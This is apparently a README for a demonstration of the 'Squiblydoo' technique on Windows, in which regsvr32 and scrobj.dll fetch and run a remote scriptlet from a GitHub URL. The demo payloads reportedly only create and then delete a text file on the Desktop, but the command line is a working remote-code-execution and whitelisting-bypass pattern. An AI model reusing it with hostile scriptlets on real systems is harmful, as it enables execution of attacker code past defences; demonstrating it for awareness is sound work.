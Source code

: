 # Squiblydoo Demo
This is a quick demo to show how an unprotected Windows system can be affected by RegSvr32.dll.
**strong text**
## Prerequisites:
Windows Defender disabled

## Demo:

**File Download:**
Open a command prompt and run the following command:

    regsvr32 /u /n /s /i:https://raw.githubusercontent.com/matt-threatlocker/squiblydoodemo/master/badFile.sct scrobj.dll
This will place a badFile.txt file on the users Desktop.  

**File Deletion:**

    regsvr32 /u /n /s /i:https://raw.githubusercontent.com/matt-threatlocker/squiblydoodemo/master/badFileRemove.sct scrobj.dll
This will remove the file created by the previous command.  
